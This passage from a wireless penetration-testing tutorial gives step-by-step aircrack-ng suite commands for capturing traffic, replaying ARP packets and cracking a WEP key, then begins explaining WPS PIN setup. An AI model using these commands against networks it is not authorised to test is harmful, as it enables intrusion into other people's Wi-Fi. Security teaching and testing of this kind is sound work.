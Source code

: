 At the bottom of the output are the MAC addresses of the access points and the clients (stations) connected to those access points.

### Capture traffic with Airodump-ng

In a new terminal window, capture traffic for a specific wireless network:

```text
# airodump-ng -c <channelnumber> -w <filename> --bssid <MAC address of access point> wlan0mon
```

### Associate with access point and replay traffic

To crack the WEP encryption, a large number of packets (approximately 100.000 packets) are needed. 

Associate with the access point first:

```text
# aireplay-ng --fakeauth 0 -a <bssid of the access point> wlan0mon
```

Replay ARP traffic:

```text
# aireplay-ng --arpreplay -b <bssid of the access point> wlan0mon
```

### Crack the WEP key

Specify the .cap file by the filename created earlier, but add a dash and a 01 because it is
the first time. Just leave it running to keep trying until it cracks the WEP password:

```text
# aircrack-ng <filename.cap>
```

Once the password is cracked, a "KEY FOUND!" appears at the bottom of the output followed by the encryption key in hex format within square brackets. Copy this value without the square brackets and remove the colons (`:`) before entering the key to connect to the wireless network.

## WPS pin attack

Wi-Fi Protected Setup, or WPS, is a wireless standard protocol used by WPA and WPA2 protected networks that helps autoconfigure wireless clients with the wireless encryption password so that they do not need to input the password. WPS is commonly found in consumer appliances and may use in-band methods, such as using a personal identification number (PIN) during setup or pushing a button to initiate the network discovery process, or out-of-band methods such as near field communication (NFC), where proximity initiates the connection.

* Many wireless access points and routers have a WPS button that you can press to connect a wireless client to the network via the WPS protocol. After clicking the button, you then go to the client device (typically a laptop or a smartphone) and choose to connect to the wireless network. You are automatically connected without needing to input the wireless password because the wireless access point or router has communicated the configuration information to the client for you.
* As part of the WPS standard, wireless access points and routers that support WPS must have an 8-digit pin configured. This can be viewed on the wireless access point. When connecting the client to the wireless network, the pin can be supplied instead of the wireless password.
